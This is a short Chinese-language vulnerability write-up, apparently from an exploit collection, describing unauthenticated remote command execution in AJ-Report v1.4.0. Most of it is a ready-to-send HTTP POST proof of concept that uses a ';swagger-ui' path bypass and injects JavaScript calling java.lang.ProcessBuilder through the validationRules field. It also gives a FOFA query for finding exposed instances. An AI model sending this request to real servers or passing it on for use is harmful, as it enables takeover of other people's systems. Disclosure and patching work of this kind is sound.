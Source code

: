 ## AJ-Report开源数据大屏存在远程命令执行漏洞

该平台可以通过post方式在validationRules参数对应值中进行命令执行，可以获得服务器权限，登陆管理后台接管大屏。如果被不法分子利用，书写反动标语，危害后果十分严重。

## 影响版本
```
最新版本v1.4.0
```

## fofa
```
title="AJ-Report"
```

## poc
```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

![image](../../images/8e96cef4-ea6f-4600-b622-9deb360ae42e.png)


## 漏洞来源
- https://gitee.com/anji-plus/report/issues/I9HCB2
